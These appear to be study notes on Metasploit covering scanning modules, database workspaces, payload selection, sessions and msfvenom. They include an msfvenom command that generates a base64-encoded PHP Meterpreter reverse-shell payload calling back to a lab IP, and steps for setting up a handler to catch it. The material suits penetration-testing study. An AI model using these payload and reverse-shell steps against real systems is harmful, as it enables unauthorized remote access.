 For speedier scanning, Metasploit is not the first choice. However, it does provide useful modules for the following:
+ UDP service identification -> the *scanner/discover/udp_sweep* module allows to quickly identify services running over UDP (i.e. quick way to identify DNS/NetBIOS)
+ SMB scans -> auxiliary modules such as *smb_enumshares* and *smb_version* are especially useful in corporate networks

### Metasploit Database
Using the database function can simplify project management when working with several targets.

To initialise:
+ run **systemctl start postgresql** to start the PostgreSQL database
+ run **msfdb init** to initialise the Metasploit database
+ run **msfconsole** as normal; check database status using **db_status**

**help**: shows database backends commands menu

**workspace**: access workspaces; **-a** to add a workspace, **-d** to delete a workspace; **-h** to list available options

Useful commands:
+ **db_nmap** -> run Nmap scan that will be saved to the database
+ **hosts** -> lists all scanned hosts; add **-R** to set RHOSTS to saved hosts
+ **services** -> list all scanned services; add **-S [service]** to search for specific services; useful to search for http, ftp, smb, ssh, rdp

### Vulnerability Scanning
Finding vulnerabilities will rely heavily on your ability to scan and fingerprint the target. 

Use the **info** command for any module to have a better understanding of its use and purpose.

### Exploitation
Most exploits will have a preset default payload. You can use **show payloads** to list other commands you can use.

Once you have decided on a payload, you can use **set payload** to make your choice. Note: choosing a working payload could become a trial and error process due to the enviromental/OS restrictions (i.e. firewall rules, anti-virus, file writing, or program availability). 

Remember, a session can be backgrounded using **-z** or CTRL+Z. Some additional session commands:
+ **sessions** ->  list all active sessions
+ **sessions -i [session_id]** -> interact with an existing session
+ **sessions -h** -> list options (e.g. **-C** to run a Meterpreter command, **-K** to terminate all sessions)

### Msfvenom
*Msfvenom* allows you to access all payloads available in the Metasploit framework, allowing you to create them in many different formats (e.g. PHP, exe, dll, elf) and for many different target systems (e.g. Apple, Windows, Android, Linux)

**msfvenom -l payloads**: lists all framework payloads

**msfvenom --list formats**: list supported output formats

Some tools include:
+ Encoders - encodes the payload; modern obfuscation techniques or learning methods to inject shellcode are better; eg. **msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.186.44 -f raw -e php/base64**
+ Handlers - catches callbacks from reverse shells or Meterpreter (i.e. a listener); follows these steps: 1) use exploit, 2) set payload, 3) set lhost/lport variables, 4) run
